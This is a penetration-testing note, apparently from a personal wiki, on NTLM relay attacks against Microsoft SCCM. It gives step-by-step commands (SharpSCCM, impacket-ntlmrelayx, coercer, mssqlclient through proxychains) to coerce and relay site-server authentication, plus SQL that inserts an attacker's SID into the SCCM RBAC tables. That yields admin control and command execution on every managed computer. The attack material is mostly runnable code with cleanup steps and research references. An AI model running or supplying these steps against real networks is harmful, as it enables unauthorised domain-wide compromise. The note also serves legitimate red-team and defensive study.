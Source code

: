 ```yaml
---
title: SCCM Relaying
---
```


[[notes/ad/ntlm-relaying]] between SCCM clients and servers.

# Relay to clients

When *Client Push Installation* is configured the [[notes/ad/sccm]] server connects to new Windows computers to install the SCCM client.
For that it uses a domain account that must have local admin privileges on all clients managed by SCCM.
If multiple push accounts are configured SCCM tries them one after another until authentication succeeds.
If all attempts fail the computer account of the SCCM server is used.

Requirements:

- *Automatic Site Assignment* must be configured (not default, but required for push installation)
- *Automatic Site-wide Client Push Installation* must be enabled (not default, but common)
- *Allow connection fallback to NTLM* must be enabled (was default, new installations have it disabled)

Check which users are local admin and remove them from the local administrators group, so SCCM is forced to send all credentials it has.

=== "builtin"
    ~~~ bat
    net.exe localgroup administrators
    net.exe user sccmpush /delete
    ~~~

If NTLM fallback is disabled and you control the computer object, you can force the SCCM server to use NTLM nevertheless.
This was patched in October 2022.

=== "builtin"
    ~~~ bat
    setspn.exe -L ws01
    setspn.exe -D host/ws01 ws01
    setspn.exe -D host/ws01.corp.local ws01
    ~~~

As unprivileged user on a SCCM-managed computer coerce NTLM from the SCCM server over SMB to a computer were you can listen on port 445 and [[notes/ad/ntlm-relay-to-smb|relay to SMB]] of other SCCM-managed clients.
The SCCM server will try to authenticate with all configured push accounts.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe invoke client-push -mp sccmmp01.corp.local -sc CRP -t 192.158.178.42
    ~~~

Cleanup.
The UUID is printed by the command above.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe remove device %uuid% -mp sccmmp01.corp.local -sc CRP
    ~~~

References:

- [Coercing NTLM authentication from SCCM](http://web.archive.org/web/20221122215409/https://scribe.rip/@specterops/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [Push comes to shove: Exploring the attack surface of SCCM client push accounts](http://web.archive.org/web/20221231133551/https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [Push comes to shove: Bypassing Kerberos authentication of SCCM client push accounts](http://web.archive.org/web/20221210034303/https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-bypassing-kerberos-authentication-of-sccm-client-push-accounts)

# Relay to site database server

The computer account of the primary site server is local administrator on the site database server and on every site server hosting the *SMS Provider* role.
You can perform NTLM relaying [[notes/ad/ntlm-relay-from-smb|from SMB]] either [[notes/ad/ntlm-relay-to-smb|to SMB]] or [[notes/ad/ntlm-relay-to-mssql|to MSSQL]].

## Relay to SMB

Coerce the primary site server [[notes/ad/ntlm-relay-from-smb|via SMB]] and try relaying to any other SCCM server [[notes/ad/ntlm-relay-to-smb|over SMB]].

## Relay to MSSQL

Identify the site database server.

~~~
❯ sccmhunter show -smb
...
|    | Hostname            | Site Code | Signing Status | Site Server | Distribution Point | WSUS  | MSSQL |
...
|  1 | sccmdb01.corp.local | CRP       | False          | True        | True               | True  | True  |
+----+---------------------+-----------+----------------+-------------+--------------------+-------+-------+
|  2 | sccmdp01.corp.local | CRP       | False          | False       | True               | False | False |
...
~~~

Get the SID of your user in hex format ([source](https://www.thehacker.recipes/ad/movement/sccm-mecm#sccm-site-takeover)).

=== "[[notes/tools/impacket]]"
    ~~~ bash
    sid=$(rpcclient -U jdoe%'passw0rd' dc01.corp.local -c 'lookupnames jdoe' | cut -d ' ' -f 2)
    hexsid=$(python3 -c 'import sys;from impacket.ldap.ldaptypes import LDAP_SID;s=LDAP_SID();s.fromCanonical(sys.argv[1]);print("0x"+"".join(f"{b:02X}" for b in s.getData()))' $sid)
    ~~~

=== "[[notes/tools/sharpsccm]]"
    ~~~
    C:\> .\SharpSCCM.exe get user-sid
    ...
    [+] Active Directory SID (hex): 0x0105000000000005150000001234567890ABCDEF1234567890ABCDEF
    ~~~

Start relaying to the MSSQL site database.

~~~ bash
impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support -t mssql://sccmdb01.corp.local -socks -debug
~~~

Coerce authentication from a SCCM site server.
Coercion trough client push works as well.

~~~ bash
coercer coerce -d stvw.wiesbaden.net -u jdoe -p 'passw0rd' -l 172.16.206.201 -t sccmdp01.corp.local --auth-type smb --always-continue
~~~

Connect trough the SOCKS proxy established by `impacket-ntlmrelayx` to the MSSQL server.

~~~ bash
proxychains impacket-mssqlclient -windows-auth -no-pass 'CORP/SCCMDP01$@sccmdb01.corp.local'
~~~

And give your user the SCCM administrator role ([source](https://twitter.com/_Mayyhem/status/1700602445603209236)):

~~~ sql
USE CM_CRP;
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x0105000000000005150000001234567890ABCDEF1234567890ABCDEF,'corp\jdoe',0,0,'','','','','CRP');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName='corp\jdoe'),'SMS0001R','SMS00ALL','29');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName='corp\jdoe'),'SMS0001R','SMS00001','1');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName='corp\jdoe'),'SMS0001R','SMS00004','1');
~~~

Now you can execute arbitrary commands on every SCCM-managed computer.
See [[notes/ad/sccm-admin]] for details.

Cleanup.

~~~ sql
DELETE FROM RBAC_ExtendedPermissions WHERE AdminID=(SELECT AdminID FROM RBAC_Admins WHERE LogonName='corp\jdoe');
DELETE FROM RBAC_Admins WHERE LogonName='corp\jdoe');
~~~

References:

- [SharpSCCM Demos - 2023 Black Hat USA Arsenal](https://www.youtube.com/watch?v=uyI5rgR0D-s)
- [SCCM site takeover via automatic client push installation](http://web.archive.org/web/20230112143952/https://scribe.rip/@specterops/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)

# Relay to Admin Service API

Coerce the primary site server computer account [[notes/ad/ntlm-relay-from-smb|via SMB]] and [[notes/ad/ntlm-relay-to-http|relay to HTTP or HTTPS]].
Requires [PR 1593](https://github.com/fortra/impacket/pull/1593)

~~~ bash
impacket-ntlmrelayx -smb2support --adminservice -t https://smsprovider.corp.local/AdminService/wmi/SMS_Admin --logonname 'CORP\jdoe' --displayname 'CORP\jdoe' --objectsid $jdoe_sid
~~~

References:

- [Site Takeover via SCCM’s AdminService API](http://web.archive.org/web/20230812172242/https://scribe.rip/@specterops/site-takeover-via-sccms-adminservice-api-d932e22b2bf)

# Relay from passive to active site server

For high availability a passive site server might exist.
Its computer account is local administrator on the active site server.
Therefore you can perform classic NTLM relaying [[notes/ad/ntlm-relay-from-smb|from SMB]] [[notes/ad/ntlm-relay-to-smb|to SMB]].

References:

- [SCCM Hierarchy Takeover with High Availability](http://web.archive.org/web/20240224154010/https://scribe.rip/@specterops/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
